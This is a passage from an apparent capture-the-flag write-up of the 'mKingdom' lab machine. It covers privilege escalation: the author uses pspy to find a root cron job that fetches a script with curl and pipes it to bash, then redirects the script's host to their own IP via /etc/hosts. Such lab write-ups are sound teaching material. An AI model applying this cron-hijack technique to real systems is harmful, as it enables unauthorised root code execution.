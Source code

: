 ```
 SS    SS SS SS       |   |
 SS    SS SS SS       `==='
SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS
```

The file `smb.txt` appears to contain a playful ASCII art message, and it uses only 3 words “**P**”, “**S**”, and “**Y**”. This reminds me a tool called **`pspy`** which is used for monitoring real-time processes and cronjobs on Linux system.

Within the hint, I downloaded the pspy32 and transferred it to the target machine and then execute it:

![image.png](/assets/mKingdom%20images/image%2015.png)

Waited for a minute and I captured interested lines:

```
curl mkingdom.thm:85/app/castle/application/counter.sh
/bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log                               
```

Shortly, these 2 commands are automatically executed in every minute to:

1. Fetch (download) a script **`coutner.sh`** from:
    - Host: **`mkingdom.thm`**
    - Port: **85**
    - Destination: **`/app/castle/application/`**
2. Execute it with **`bash`**
3. And finally save the result of the script into **`/var/log/up.log`**

So, if I modify the IP address of **`mkingdom.thm`** in **`/etc/hosts`** to my own local IP address:

```
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1       localhost
10.6.68.89      mkingdom.thm
127.0.0.1       backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

```

